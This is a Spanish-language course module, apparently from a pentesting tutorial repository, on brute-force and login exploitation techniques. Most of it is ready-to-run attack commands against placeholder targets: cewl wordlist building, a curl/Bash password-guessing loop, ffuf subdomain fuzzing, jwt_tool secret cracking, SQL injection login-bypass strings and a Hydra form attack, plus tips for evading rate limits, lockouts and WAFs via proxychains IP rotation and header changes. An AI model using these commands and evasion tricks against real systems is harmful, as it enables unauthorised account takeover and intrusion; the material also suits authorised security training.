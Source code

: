 
# 🔐 Fuerza Bruta y Explotación de Vulnerabilidades (Parte 2)

En este módulo ampliamos el enfoque de ataques por fuerza bruta y explotación de servicios, incluyendo técnicas más avanzadas, métodos personalizados, y explotación en aplicaciones modernas. También se cubren defensas comunes y cómo evadirlas.

---

## 🧠 Ataques de Fuerza Bruta Inteligente

Los ataques clásicos prueban cada combinación posible, pero podemos ser más efectivos con:

- Diccionarios personalizados basados en OSINT
- Reglas de mutación sobre contraseñas conocidas
- Combinaciones de nombres de usuario + patrones típicos

### 🛠️ Herramienta: `cewl`
```bash
cewl https://objetivo.com -w wordlist.txt
```

Crea una wordlist escaneando el contenido de un sitio objetivo.

---

## 🎭 Evasión de Protección contra Fuerza Bruta

Los sistemas modernos implementan mecanismos de defensa como:

- Captchas
- Retrasos temporales (rate limiting)
- Bloqueo tras intentos fallidos

### 🔄 Técnicas de evasión:

- Rotación de IPs con `proxychains`
- Bypasses usando parámetros alternativos (`user_login`, `usuario`, etc.)
- Automatización en herramientas como Burp Suite Intruder con pausas personalizadas

---

## 💻 Fuerza Bruta sobre Formularios con Curl

Ejemplo de ataque manual:
```bash
curl -X POST -d "user=admin&pass=password" http://192.168.1.10/login.php
```

Automatiza con Bash:
```bash
for pass in $(cat wordlist.txt); do
    curl -s -X POST -d "user=admin&pass=$pass" http://192.168.1.10/login.php | grep -q "Bienvenido" && echo "[+] Contraseña encontrada: $pass"
done
```

---

## 🕵️‍♂️ Fuerza Bruta de Subdominios

Herramientas como `wfuzz` o `ffuf` pueden detectar subdominios:

```bash
ffuf -w subdominios.txt -u http://FUZZ.objetivo.com
```

---

## 🔄 Fuerza Bruta con JWTs manipulados

Algunas aplicaciones web usan JSON Web Tokens para autenticación. Si la clave secreta es débil, puede ser descubierta por fuerza bruta.

```bash
python jwt_tool.py -t <token> -d wordlist.txt -C
```

---

## 🧨 Explotación de Login con SQL Injection + Fuerza Bruta

Una técnica híbrida: probar inyecciones SQL simples para evitar login y combinarlo con fuerza bruta.

```sql
' OR '1'='1
' OR 1=1--
```

---

## 🔐 Combinación de técnicas con Hydra

```bash
hydra -L users.txt -P pass.txt -f 192.168.1.10 http-post-form "/admin.php:user=^USER^&pass=^PASS^:F=Login failed"
```

---

📌 Buenas prácticas:

- Cambia user agents y cabeceras para evadir WAFs.
- Usa `Burp` y `ZAP` para interceptar e inspeccionar peticiones.
- Documenta parámetros de respuesta exitosos para automatizar validaciones.

---

📚 Recursos extra:

- https://github.com/ffuf/ffuf
- https://portswigger.net/burp
- https://github.com/ticarpi/jwt_tool

---

💡 “El atacante paciente no prueba más rápido, sino más inteligentemente.”
